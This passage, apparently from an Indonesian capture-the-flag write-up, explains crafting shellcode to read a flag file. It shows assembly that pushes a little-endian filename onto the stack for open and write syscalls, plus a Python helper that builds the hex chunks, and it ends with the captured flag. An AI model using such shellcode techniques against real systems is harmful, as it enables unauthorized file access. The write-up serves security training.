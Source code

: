 ```asm
    mov rsi,rsp
    push 0x1
    pop rax
    syscall
```

Penjelasan singkat dari assembly code buat baca filenya

```asm
    push 0x74
    mov rax,0x78742e6537323438
    push rax
    mov rax,0x6663653839393030
    push rax
    mov rax,0x3839653430326230
    push rax
    mov rax,0x3066383964633864
    push rax
    mov rax,0x3134642d67616c66
    push rax
```

Bagian ini proses untuk memasukkan nama file kedalam stack pointer melalui immediate value dari rax dengan little-endian byte order, cara saya untuk membuat nama file menjadi bentuk ini pake python dengan script dibawah, karena ga tau cara mudahnya, ya gini aja..

```py
nama_flag = b'flag-d41d8cd98f00b204e9800998ecf8427e.txt'[::-1].hex()
nama_flag_bytes = [nama_flag[:len(nama_flag)-len(nama_flag)//16*16]] + [nama_flag[len(nama_flag)-len(nama_flag)//16*16+i:len(nama_flag)-len(nama_flag)//16*16+i+16] for i in range(0,len(nama_flag),16)]
print(f"{bytes.fromhex(''.join(nama_flag_bytes))=}")
print(f"{nama_flag_bytes=}")
```

Harusnya bakal jadi seperti ini, dan nama file digunakan sebagai parameter untuk argumen rdi pada sys_open
![Merubah string menjadi little endian dengan python](/assets/img/Screenshot 2024-07-08 210708.png)

Selanjutnya melakukan exploit dengan mengganti variabel p pada script python pertama dengan assembly code yang sudah di craft untuk tujuan membaca file dari flag.

Setelah exploit di jalankan, maka hasilnya akan seperti ini
![Exploit dijalankan](/assets/img/Screenshot 2024-07-07 150458.png)

Dan didapatlah flagnya `KMIPNVIPNJ{kud0s!_open_getdents_write__th3n__open_read_write__is_th3_int3nded_solution__h3h3h3}`

Credit:

- ITOID Instagram [@lightningitoid](https://www.instagram.com/lightningitoid/){:target="\_blank"}
- KE.II Instagram [@v4.yn](https://www.instagram.com/v4.yn/){:target="\_blank"}
